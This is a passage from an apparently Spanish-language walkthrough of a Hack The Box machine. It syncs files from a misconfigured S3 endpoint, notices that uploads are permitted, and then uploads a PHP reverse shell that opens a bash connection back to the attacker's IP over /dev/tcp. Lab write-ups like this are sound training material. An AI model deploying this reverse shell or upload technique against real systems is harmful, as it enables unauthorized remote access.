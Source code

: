 Existe una forma para descarga los archivos que se encuentren dentro de esta carpeta, con el siguiente comando

 ```bash
  aws --endpoint-url=http://s3.bucket.htb:80 s3 sync s3://adserver .
``` 

Bingo si existen archivo que podemos descargar 

![paste](./images/9.jpeg)

Y dentro de estos tampoco encontramos nada, que podemos hacer en este punto, dejar de intentar por que se puso difícil la situación , esperar por que ella responda, NO amigo mío jajaja tenemos que encontrar una solución, si nos quedamos quietos nada se moverá.

En los encabezados tenemos algo super interesante que nos ayudara en esta ocasión

```header
access-control-allow-methods: HEAD,GET,PUT,POST,DELETE,OPTIONS,PATCH
```

esto quiere decir que podemos subir archivos y descargarlos tenemos control completo en otras palabras. La pagina trabaja con Apache por ende PHP esta instalado, y si podemos subir archivos..... que te parece una reverse shell (Me imagine esa sonrisa tuya ahora) ves como si hay solución

El archivo .php es una reverse shell de toda la vida:

```PHP
<?php 
exec('/bin/bash -c \"bash -i >& /dev/tcp/10.10.X.X/443 0>&1 \"'); 
?>
```

Y procedemos a subirlo 

```bash 
aws --endpoint-url=http://s3.bucket.htb s3 cp Your_File.php s3://adserver/
```

![paste](./images/10.jpeg)
